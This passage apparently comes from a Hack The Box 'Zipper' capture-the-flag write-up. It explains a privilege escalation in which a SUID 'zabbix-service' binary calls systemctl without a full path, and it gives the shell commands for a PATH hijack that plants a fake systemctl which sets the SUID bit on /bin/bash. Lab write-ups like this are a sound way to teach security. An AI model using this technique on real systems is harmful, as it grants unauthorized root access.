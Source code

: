 ### SUID Binary RE -> Root

There was a `zabbix-service` SUID binary within the `utils` directory I saw earlier. I downloaded a copy via `nc`, and took a look at it within `ghidra`.

The binary uses the `systemctl` binary without the full PATH.

![](../../../.gitbook/assets/htb-zipper-image-9.png)

This is pretty easy to exploit:

```bash
cd /home/zapper/utils
echo '#!/bin/bash' > systemctl
echo 'chmod u+s /bin/bash' >> systemctl
chmod +x systemctl
export PATH=/home/zapper/utils:$PATH
./zabbix-service
```

![](../../../.gitbook/assets/htb-zipper-image-10.png)

Rooted! There were actually a LOT of different paths for the initial access. Based on 0xdf's writeup, the other paths include:

* Zabbix admin's password being in the container
* Public exploits
* Creating a new administrator user